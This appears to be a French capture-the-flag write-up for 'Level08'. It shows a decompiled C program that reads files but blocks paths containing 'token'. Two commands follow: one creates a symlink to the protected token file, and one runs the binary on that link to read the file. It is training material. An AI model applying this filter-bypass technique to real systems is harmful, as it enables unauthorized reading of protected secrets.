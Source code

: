 # Level08:

**A la racine on y trouve le code suivant:**

```cpp
int main(int argc,char **argv,char **envp) {
  char *pcVar1;
  int __fd;
  size_t __n;
  ssize_t sVar2;
  int in_GS_OFFSET;
  int fd;
  int rc;
  char buf [1024];
  undefined local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc == 1) {
    printf("%s [file to read]\n",*argv);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar1 = strstr(argv[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",argv[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __fd = open(argv[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",argv[1]);
  }
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  sVar2 = write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return sVar2;
}
```

**Ce code ouvre un fichier et en lit le contenu a condition qu'il ne contienne pas le mot `token` dans l'adresse du fichier**

**Pour bypass ce probleme il suffit de creer un lien symbolique vers le fichier token**
`ln -sf /home/user/level08/token /tmp/level08`

**On peut maintenant executer le binaire avec le lien en parametre**
`./level08 /tmp/level08`

![finaly.png](./finaly.png)